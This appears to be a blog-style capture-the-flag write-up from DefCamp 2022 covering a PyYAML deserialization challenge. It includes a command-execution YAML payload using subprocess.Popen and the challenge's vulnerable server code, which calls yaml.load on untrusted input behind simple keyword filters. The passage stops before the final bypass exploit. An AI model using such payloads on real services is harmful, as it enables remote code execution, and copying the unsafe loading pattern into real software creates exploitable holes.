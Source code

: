 ```yaml
---
layout: post
title: "Defcamp 2022 Writeups"
categories: writeups
author: Liam
---
```


Here are a few writeups from the tasks we solved at DefCamp Capture the Flag 2022.

## raw-proto

Challenge description:

> This challenge leaves me a salty, sour taste.
> 

No files are provided. The challenge greets us with:

```
/home/ctf/server.py:15: YAMLLoadWarning: calling yaml.load() without Loader=... is deprecated, as the default Loader is unsafe. Please read https://msg.pyyaml.org/load for full details.
GET / HTTP/1.1
```

YAML or more specifically PyYAML comes with python support (Documentation: [https://pyyaml.org/wiki/PyYAMLDocumentation](https://pyyaml.org/wiki/PyYAMLDocumentation))

This should make it easy to do anything we want on the system, but trying a basic payload:

```yaml
!!python/object/apply:subprocess.Popen
- ls
```

Gives us:

```
Try Harder! I bet you can.. lol.
```

We had to work our way around the filters. For the sake of a short and complete write-up, we show the actual code, that we obtained with our final exploit after getting the flag.

```python
import sys,yaml
import os
del os
sys.modules['os']=None
x = ''.join(sys.stdin.readline())
if 'open' in x:
    print("Try Harder! I bet you can.. lol.")
    sys.exit(0)
if
'\\x' in x:
    print("Try Harder! Hex in python? Is that all you can think off?")
    sys.exit(0)
if 'base64' in x:
    print("Try Harder! base64 in python? Is that all you can think off?")
    sys.exit(0)
print(yaml.load(x))
```
